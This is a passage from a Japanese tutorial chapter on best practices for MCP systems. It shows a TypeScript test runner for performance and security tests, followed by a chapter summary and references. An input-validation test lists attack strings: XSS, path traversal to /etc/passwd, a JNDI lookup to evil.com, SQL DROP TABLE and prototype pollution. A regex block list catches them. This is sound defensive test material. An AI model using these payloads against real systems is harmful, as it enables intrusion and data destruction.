      const mockResult = { rows: [{ version: 'PostgreSQL 13.7' }] };
      expect(mockResult.rows).toHaveLength(1);
      expect(mockResult.rows[0].version).toContain('PostgreSQL');
      
      return {
        name: 'Database Integration',
        status: 'passed',
        duration: performance.now() - startTime,
        assertions: 2
      };
    } catch (error) {
      return {
        name: 'Database Integration',
        status: 'failed',
        error: error.message,
        duration: performance.now() - startTime,
        assertions: 0
      };
    }
  }
  
  private async runPerformanceTests(suite: PerformanceTestSuite): Promise<TestSuiteResult> {
    console.log('Running performance tests...');
    
    const results: TestResult[] = [];
    
    // レスポンス時間テスト
    results.push(await this.testResponseTime());
    
    // スループットテスト
    results.push(await this.testThroughput());
    
    // 負荷テスト
    results.push(await this.testLoadHandling());
    
    // メモリ使用量テスト
    results.push(await this.testMemoryUsage());
    
    return {
      name: 'Performance Tests',
      results,
      duration: results.reduce((sum, r) => sum + r.duration, 0)
    };
  }
  
  private async testResponseTime(): Promise<TestResult> {
    const startTime = performance.now();
    const iterations = 100;
    const responseTimes: number[] = [];
    
    try {
      for (let i = 0; i < iterations; i++) {
        const iterationStart = performance.now();
        
        // モックAPIコール
        await new Promise(resolve => setTimeout(resolve, Math.random() * 50 + 10));
        
        responseTimes.push(performance.now() - iterationStart);
      }
      
      const averageResponseTime = responseTimes.reduce((sum, time) => sum + time, 0) / iterations;
      const maxResponseTime = Math.max(...responseTimes);
      const p95ResponseTime = responseTimes.sort((a, b) => a - b)[Math.floor(iterations * 0.95)];
      
      // パフォーマンス要件の検証
      expect(averageResponseTime).toBeLessThan(100); // 平均100ms以下
      expect(p95ResponseTime).toBeLessThan(200);      // P95で200ms以下
      expect(maxResponseTime).toBeLessThan(500);      // 最大500ms以下
      
      return {
        name: 'Response Time Test',
        status: 'passed',
        duration: performance.now() - startTime,
        assertions: 3,
        metrics: {
          averageResponseTime,
          maxResponseTime,
          p95ResponseTime,
          iterations
        }
      };
    } catch (error) {
      return {
        name: 'Response Time Test',
        status: 'failed',
        error: error.message,
        duration: performance.now() - startTime,
        assertions: 0
      };
    }
  }
  
  private async runSecurityTests(suite: SecurityTestSuite): Promise<TestSuiteResult> {
    console.log('Running security tests...');
    
    const results: TestResult[] = [];
    
    // 認証テスト
    results.push(await this.testAuthentication());
    
    // 認可テスト
    results.push(await this.testAuthorization());
    
    // 入力検証テスト
    results.push(await this.testInputValidation());
    
    // SQLインジェクションテスト
    results.push(await this.testSQLInjection());
    
    return {
      name: 'Security Tests',
      results,
      duration: results.reduce((sum, r) => sum + r.duration, 0)
    };
  }
  
  private async testInputValidation(): Promise<TestResult> {
    const startTime = performance.now();
    
    try {
      const maliciousInputs = [
        '<script>alert("xss")</script>',
        '../../etc/passwd',
        '${jndi:ldap://evil.com}',
        'DROP TABLE users;',
        '{"__proto__": {"polluted": true}}'
      ];
      
      let blockedInputs = 0;
      
      for (const input of maliciousInputs) {
        try {
          // 入力検証の実行（モック）
          const isValid = this.validateInput(input);
          if (!isValid) {
            blockedInputs++;
          }
        } catch (error) {
          // エラーが発生した場合も適切にブロックされたとみなす
          blockedInputs++;
        }
      }
      
      // 全ての悪意のある入力がブロックされることを確認
      expect(blockedInputs).toBe(maliciousInputs.length);
      
      return {
        name: 'Input Validation Test',
        status: 'passed',
        duration: performance.now() - startTime,
        assertions: 1,
        metrics: {
          totalInputs: maliciousInputs.length,
          blockedInputs
        }
      };
    } catch (error) {
      return {
        name: 'Input Validation Test',
        status: 'failed',
        error: error.message,
        duration: performance.now() - startTime,
        assertions: 0
      };
    }
  }
  
  private validateInput(input: string): boolean {
    // 簡単な入力検証ロジック
    const dangerousPatterns = [
      /<script.*?>/i,
      /\.\.\//,
      /\$\{.*?\}/,
      /drop\s+table/i,
      /__proto__/
    ];
    
    return !dangerousPatterns.some(pattern => pattern.test(input));
  }
  
  private async calculateCodeCoverage(): Promise<number> {
    // コードカバレッジの計算（モック）
    return 85.5; // 85.5%
  }
  
  private calculateOverallResult(testSuites: Record<string, TestSuiteResult>): 'passed' | 'failed' | 'warning' {
    const allResults = Object.values(testSuites).flatMap(suite => suite.results);
    const hasFailures = allResults.some(result => result.status === 'failed');
    const hasWarnings = allResults.some(result => result.status === 'warning');
    
    if (hasFailures) return 'failed';
    if (hasWarnings) return 'warning';
    return 'passed';
  }
  
  private calculateMetrics(testSuites: Record<string, TestSuiteResult>): TestMetrics {
    const allResults = Object.values(testSuites).flatMap(suite => suite.results);
    
    return {
      totalTests: allResults.length,
      passedTests: allResults.filter(r => r.status === 'passed').length,
      failedTests: allResults.filter(r => r.status === 'failed').length,
      skippedTests: allResults.filter(r => r.status === 'skipped').length,
      coverage: Object.values(testSuites).find(s => s.coverage)?.coverage || 0,
      duration: Object.values(testSuites).reduce((sum, s) => sum + (s.duration || 0), 0)
    };
  }
  
  // 継続的テストのためのワッチモード
  startWatchMode(): void {
    console.log('Starting test watch mode...');
    
    // ファイル変更監視（簡略化）
    setInterval(async () => {
      // ファイル変更をチェックし、関連テストを実行
      console.log('Checking for file changes...');
    }, 5000);
  }
}

// 型定義
interface TestResult {
  name: string;
  status: 'passed' | 'failed' | 'skipped' | 'warning';
  duration: number;
  assertions: number;
  error?: string;
  metrics?: any;
}

interface TestSuiteResult {
  name: string;
  results: TestResult[];
  duration: number;
  coverage?: number;
}

interface TestReport {
  startTime: Date;
  endTime?: Date;
  duration?: number;
  testSuites: Record<string, TestSuiteResult>;
  overallResult: 'passed' | 'failed' | 'warning' | 'pending';
  metrics: TestMetrics;
  error?: string;
}

interface TestMetrics {
  totalTests: number;
  passedTests: number;
  failedTests: number;
  skippedTests: number;
  coverage: number;
  duration: number;
}

// テストスイート型定義
interface UnitTestSuite {
  serverTests: string[];
  businessLogicTests: string[];
  utilityTests: string[];
}

interface IntegrationTestSuite {
  databaseTests: string[];
  apiTests: string[];
  serviceTests: string[];
}

interface E2ETestSuite {
  userJourneys: string[];
  workflows: string[];
}

interface PerformanceTestSuite {
  loadTests: string[];
  stressTests: string[];
  enduranceTests: string[];
}

interface SecurityTestSuite {
  authenticationTests: string[];
  authorizationTests: string[];
  inputValidationTests: string[];
  vulnerabilityTests: string[];
}
```

## 🎉 まとめ

この章では、MCPシステムのベストプラクティスについて包括的に学習しました：

- **パフォーマンス最適化**: 高速レスポンス、効率的リソース利用、スケーラブル設計
- **耐障害性設計**: サーキットブレーカー、バルクヘッド、リトライ機構
- **包括的テスト戦略**: 単体・統合・E2E・パフォーマンス・セキュリティテスト
- **セキュリティ**: 多層防御、入力検証、認証・認可
- **運用効率**: 監視、ログ、ヘルスチェック、グレースフルシャットダウン

これらのベストプラクティスを適用することで、プロダクションレベルの堅牢なMCPシステムを構築できます。

### 次のステップ

**[09-CaseStudy](../09-CaseStudy/)** に進んで、実際のケーススタディから具体的な実装パターンを学習しましょう。

## 📚 参考資料

- [Site Reliability Engineering (SRE) Book](https://sre.google/sre-book/)
- [Release It! Design and Deploy Production-Ready Software](https://pragprog.com/titles/mnee2/release-it-second-edition/)
- [Building Microservices](https://www.oreilly.com/library/view/building-microservices/9781491950340/)
- [The Art of Scalability](https://www.oreilly.com/library/view/the-art-of/9780134032802/)
- [Continuous Delivery](https://continuousdelivery.com/)

---

*優れたソフトウェアは、優れた設計と優れた実装の結果です。ベストプラクティスは、多くの開発者の経験と知恵の結晶であり、これらを活用することで高品質なシステムを効率的に構築できます。*